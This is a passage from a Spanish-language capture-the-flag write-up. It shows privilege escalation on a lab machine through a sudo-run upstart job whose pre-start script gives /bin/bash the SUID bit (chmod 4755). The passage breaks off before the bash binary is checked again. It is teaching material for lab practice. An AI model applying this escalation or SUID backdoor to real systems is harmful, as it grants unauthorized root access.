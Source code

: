 Entonces, cuando hagamos `start` guardara la cadena de texto, pero además (si todo va bien) guardara el id del usuario que ejecuta la tarea (en este caso `root` al hacer uso de `sudo`):

```bash
katie@spectra /etc/init $ sudo /sbin/initctl start test9
test9 start/running, process 4684
```

Yyyyy:

```bash
katie@spectra /etc/init $ cat /var/log/nodetest.log
[Tue Mar  9 16:41:30 PST 2021] Node Test Starting
uid=0(root) gid=0(root) groups=0(root)
```

Perfecto, peeeeeeeeeeeeeerfecto, con esto ya podríamos directamente ver la flag, pero intentemos obtener una Shell (aun teniendo en cuenta los problemitas que puso `bash` al inicio).

Para esto podemos otorgarle el permiso `SUID` a la bash que tenemos, asi despues simplemente indicaríamos `bash -p` (para que atienda al privilegio del `SUID`) y cambiaríamos la Shell inicial (`katie`) a la que esta ejecutando `root`:

* [Asignando **SUID** a la bash para convertirnos en **root** - S4vitar lo explica también :P](https://www.youtube.com/watch?v=KH9EGcDMMRI&t=1527s).

> Los binarios **SUID** permiten a los usuarios ejecutar un archivo ejecutable con los permisos del archivo ejecutable o el propietario del grupo.
>> [Permiso **s** en un objeto linux](https://www.enmimaquinafunciona.com/pregunta/11304/como-puedo-borrar-el-permiso-de-s-en-un-directorio-en-linux).

Entonces, primero validemos como esta el binario `/bin/bash` antes de asignarle el permiso `SUID`:

```bash
katie@spectra /etc/init $ ls -la /bin/bash
-rwxr-xr-x 1 root root 551984 Dec 22 05:46 /bin/bash
# Tiene el permiso 755, pero faltaria el 4 (que es el SUID)
```

En estos momentos no podemos hacer nada con esa bash, ya que se ejecutaría una sesión dependiendo el usuario que lo ejecute, no el propietario...

Vamos al archivo job y agregamos:

```bash
...
pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
    chmod 4755 /bin/bash
end script
...
```

Y ejecutamos:

```bash
katie@spectra /etc/init $ sudo /sbin/initctl start test9
```

Y si validamos ahora el binario `/bin/bash`:
